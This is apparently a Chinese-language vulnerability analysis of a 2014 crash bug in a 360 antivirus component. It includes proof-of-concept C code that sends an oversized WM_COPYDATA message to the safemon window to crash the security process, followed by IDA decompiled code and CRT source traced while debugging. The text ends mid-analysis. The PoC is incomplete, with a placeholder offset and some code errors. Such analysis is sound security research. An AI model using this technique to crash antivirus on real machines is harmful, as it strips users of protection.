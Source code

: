 2014年 . 某杀软9.0版本 的溢出漏洞



首先看一下paylaod代码

```c
#include<windows.h>
int main()
{
    HMODULE h360 =GetModuleHandleA(TEXT("safemon.dll"));
    if(h360)
    {
        //句柄获取方式一
        FARPROC f ncGet360HWND = (FARPROC)((BYTE*)h360+某个偏移);
        HWND hWnd = (HWND)funcGet360HWND(); //获取通过调用那一处的函数而获取某个句柄

         //句柄获取方式二
        HWND hWnd =FindWindowA("Q360SafeMonClass",NULL);

        COPYDATASTRUCT cpdata;
        cpdata.dwData = 0x4d47534d;
        cpdata.cbData = 0x1000;
        cpdata.lpData = msgbuf;  //长度0x1000字节的随即数据，其中不能有连续\x00\x00,可以用HxD生成
        SendMessage(hWnd, WM_COPYDATA, NULL,(LPARAM)&cpdata);
    }
}
```

原理是通过缓冲区溢出导致进程崩溃





具体在哪里缓冲区溢出的

经过调试发现，导致360出错退出的地方在360safemonpro.tpi这个模块里inline编译的vsnwprintf，从这里调用：

![1397446938227](img/1397446938227.jpg "点击查看大图")

IDA里面的代码：

```c
int sub_10012240(wchar_t *Format, ...)
{
  int v1; // eax@1
  wchar_t Dest; // [sp+0h] [bp-1000h]@1
  __int16 v4; // [sp+FFEh] [bp-2h]@4
  va_list va; // [sp+1008h] [bp+8h]@1

  va_start(va, Format);
  v1 = vsnwprintf(&Dest, 0x7FFu, Format, va);
  if ( v1 < 0 || (unsigned int)v1 > 0x7FF || v1 == 2047 )
    v4 = 0;
  sub_10013670();
  return sub_10012BC0(&Dest);
}
```

对应的源代码是：

```c
output.c
/*textlen now contains length in multibyte chars */
} 
else
{
    if(text.wz== NULL) /* NULLpassed, use special string */
    text.wz = __wnullstring;
    bufferiswide= 1;
    pwch= text.wz;
    while(i– && *pwch)  //这里出错了
    ++pwch;
    textlen= (int)(pwch- text.wz);       /* in wchar_ts*/
    /*textlen now contains leng
    th in wide chars */
}
```

看起来360的用法是没有错的，这里不存在溢出之类的漏洞，
